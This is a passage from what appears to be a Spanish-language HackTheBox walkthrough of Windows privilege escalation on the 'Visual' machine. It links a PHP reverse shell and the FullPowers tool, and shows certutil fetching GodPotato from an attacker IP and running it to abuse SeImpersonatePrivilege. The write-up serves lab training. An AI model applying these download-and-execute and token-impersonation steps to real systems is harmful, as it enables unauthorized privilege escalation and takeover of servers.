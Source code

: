 Vemos que ejecutamos comandos como **nt authority\local service**

Puedo subir la siguiente reverse shell escrita en PHP para ganar acceso desde nuestra máquina:

- [https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell_older.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell_older.php)

![](@assets/HackTheBox/Visual/whoami.png)

Al ser una cuenta de servicio, podemos intentar usar el siguiente exploit:

- [https://github.com/itm4n/FullPowers](https://github.com/itm4n/FullPowers)

Este sirve para recuperar privilegios (incluido el querido **SeImpersonate**) de [cuentas de servicio](https://learn.microsoft.com/es-es/windows-server/identity/ad-ds/manage/understand-service-accounts) las cuales por defecto tienen muchos de sus permisos limitados por seguridad.

![](@assets/HackTheBox/Visual/upgrade.png)

Para explotar el **SeImpersonatePrivilege**, como el servidor no corre ningún servicio SMB, estaré utilizando el siguiente exploit en vez del clásico PrintSpoofer o RoguePotato:

- [https://github.com/BeichenDream/GodPotato/releases/tag/V1.20](https://github.com/BeichenDream/GodPotato/releases/tag/V1.20)

```bash
c:\xampp\htdocs>certutil -urlcache -f http://10.10.14.16/GodPotato-NET4.exe GodPotato-NET4.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

c:\xampp\htdocs>.\GodPotato-NET4.exe

    FFFFF                   FFF  FFFFFFF
   FFFFFFF                  FFF  FFFFFFFF
  FFF  FFFF                 FFF  FFF   FFF             FFF                  FFF
  FFF   FFF                 FFF  FFF   FFF             FFF                  FFF
  FFF   FFF                 FFF  FFF   FFF             FFF                  FFF
 FFFF        FFFFFFF   FFFFFFFF  FFF   FFF  FFFFFFF  FFFFFFFFF   FFFFFF  FFFFFFFFF    FFFFFF
 FFFF       FFFF FFFF  FFF FFFF  FFF  FFFF FFFF FFFF   FFF      FFF  FFF    FFF      FFF FFFF
 FFFF FFFFF FFF   FFF FFF   FFF  FFFFFFFF  FFF   FFF   FFF      F    FFF    FFF     FFF   FFF
 FFFF   FFF FFF   FFFFFFF   FFF  FFF      FFFF   FFF   FFF         FFFFF    FFF     FFF   FFFF
 FFFF   FFF FFF   FFFFFFF   FFF  FFF      FFFF   FFF   FFF      FFFFFFFF    FFF     FFF   FFFF
  FFF   FFF FFF   FFF FFF   FFF  FFF       FFF   FFF   FFF     FFFF  FFF    FFF     FFF   FFFF
  FFFF FFFF FFFF  FFF FFFF  FFF  FFF       FFF  FFFF   FFF     FFFF  FFF    FFF     FFFF  FFF
   FFFFFFFF  FFFFFFF   FFFFFFFF  FFF        FFFFFFF     FFFFFF  FFFFFFFF    FFFFFFF  FFFFFFF
    FFFFFFF   FFFFF     FFFFFFF  FFF         FFFFF       FFFFF   FFFFFFFF     FFFF     FFFF


Arguments:

	-cmd Required:True CommandLine (default cmd /c whoami)

Example:

GodPotato -cmd "cmd /c whoami"
GodPotato -cmd "cmd /c whoami"


c:\xampp\htdocs>.\GodPotato-NET4.exe -cmd "cmd /c whoami"
[*] CombaseModule: 0x140708649762816
[*] DispatchTable: 0x140708652068976
[*] UseProtseqFunction: 0x140708651445152
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
```